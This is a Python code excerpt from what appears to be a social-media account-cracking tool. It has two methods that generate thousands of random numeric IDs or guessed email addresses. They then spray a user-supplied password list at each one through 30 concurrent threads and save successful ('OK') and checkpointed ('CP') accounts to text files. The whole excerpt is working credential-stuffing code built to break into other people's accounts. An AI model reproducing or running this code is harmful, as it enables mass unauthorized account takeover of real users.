 		
	def old4_5(self):
		x = 111111
		xx = 999999
		idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))
		#idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(10000 MAX): \033[0;92m"))
		if (limit)>10000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G)) 
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))


	def email(self):
		x = 111
		xx = 999
		nam = input("%s [?] TYPE A NAME %s(EX: Riyad): "%(Y,G))
		nam = nam.replace(" ", "")
		print("%s EXAMPLE  : %s@gmail.com, @yahoo.com, @hotmail.com ETC"%(Y,G))
		idx = input("%s DOMAIN  : "%(B))
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				___ = nam
				self.id.append(___+str(_)+__)
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G)) 
				listpass = input(" [?] ENTER PASSWORD : ")
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULT SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
		